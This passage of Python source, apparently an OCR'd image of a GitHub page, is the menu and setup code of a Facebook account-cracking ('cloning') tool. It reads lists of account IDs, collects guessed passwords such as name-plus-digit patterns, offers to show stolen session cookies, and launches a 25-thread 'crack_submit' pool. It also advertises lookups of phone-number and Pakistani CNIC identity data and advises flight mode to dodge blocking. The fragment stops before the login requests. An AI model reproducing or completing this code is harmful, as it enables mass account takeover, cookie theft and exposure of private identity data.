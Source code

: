 			os.system('clear')
			print(logo)
			print('[1] File Cloning menu')
			print('[2] Pak Random Cloning menu')
			print('[3] BD  Random Cloning menu')
			print('[4] Random Choice Pass ')
			print('[5] Get any  number data')
			print('[6] Get any CNIC number data')
			print('[7] Follow me on Facebook')
			print('\x1b[1;91m[8] Exit main menu')
			linex()
			rifat=input(' Choose an option: ')
			if rifat in ['1','01']:
				os.system('clear')
				print(logo)
				
				linex()
				print(' Example : /sdcard/NOOB.txt')
				linex()
				file = input(' Put file path\033[1;37m: ')
				try:
					fo = open(file,'r').read().splitlines()
				except FileNotFoundError:
					print(' File location not found ')
					time.sleep(1)
					menu()
				os.system('clear')
				print(logo)
				print('[1] File Method\x1b[1;92m [1] \n\x1b[1;97m[2] File Method \x1b[1;92m[2]')
				linex()
				mthd=input(' Choose: ')
				linex()
				plist = []
				try:
					os.system('clear')
					print(logo)
					print(' Example : 1 , 2 ,3, 4 ,5 ,6 ,7 ,8, 9 ,****,Etc')
					linex()
					ps_limit = int(input(' Putt pass lemit : '))
				except:
					ps_limit =1
				os.system('clear')
				print(logo)
				print(' Example : first last,firstlast,first12345,***Etc')
				linex()
				for i in range(ps_limit):
					plist.append(input(f' Put password {i+1}: '))
				os.system('clear')
				print(logo)
				print(' Do you want Show Cookies : ')
				linex()
				cx=input(' Choose: ')
				if cx in ['y','Y','yes','Yes','1']:
					pcp.append('y')
				else:
					pcp.append('n')
				with tred(max_workers=25) as crack_submit:
					os.system('clear')
					print(logo)
					total_ids = str(len(fo))
					print(' Total Acounts   : '+total_ids)
					print(' Selected Method : \x1b[1;92mM '+mthd)
					print(' \x1b[1;91mIf you no result use flight mode')
					linex()